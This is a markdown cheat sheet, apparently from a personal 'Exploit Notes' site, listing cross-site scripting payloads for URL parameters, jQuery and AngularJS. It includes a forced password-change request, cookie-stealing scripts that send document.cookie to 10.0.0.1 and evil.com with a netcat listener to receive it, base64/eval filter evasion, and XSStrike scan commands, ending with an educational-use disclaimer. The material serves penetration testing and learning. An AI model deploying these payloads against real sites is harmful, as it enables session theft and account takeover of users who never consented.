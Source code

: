 ```yaml
---
title: CROSS SITE SCRIPTING (XSS)
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```

XSS enables attackers to injection client-side scripts into web applications.

# Payloads
We can insert them into URL params, POST params or HTTP headers.
```HTML
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
';alert(1);'

" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>
"><svg onload=alert(1)>

javascript:alert(1)
\"-alert(1)//

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<a onmouseover=alert(1)>click</a>
" onmouseleave='alert(1)'">

<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

</textarea><script>alert(1)</script>

<script>fetch('/profile?new_password=password');</script>

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```
# JQuery
```html
https://vulnerable.com/#<img src=1 onerror=alert(1)>
<iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
# AngularJS
If you find "<html ng-app>" or "<div ng-app>" in the HTML source code, you may be able to abuse it by XSS.
```js
https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
```
# Cookie Stealing
Create the following payload for stealing Cookie and inject into target web page.
```html
<!-- GET request -->
<script>fetch("http://10.0.0.1/?"+btoa(document.cookie));</script>

<!-- POST request -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```
Start web server or listener in local machine.
```
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```
# Filter Evasion
Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.
For example, change JavaScript code to Base64 string.
```js
fetch("http://evil.com/"+document.cookie);
# Base64: ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=
```
Insert the base64 string into the “eval” function as below.
```
# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV...2EoZCkpKQo=`\x29"}`
```
# Automation
* XSStrike is a XSS scanner : https://github.com/s0md3v/XSStrike

```js
# GET request
python xsstrike.py -u http://vulnerable.com/?param=test
# POST reqeust
python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"
# data as JSON
python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```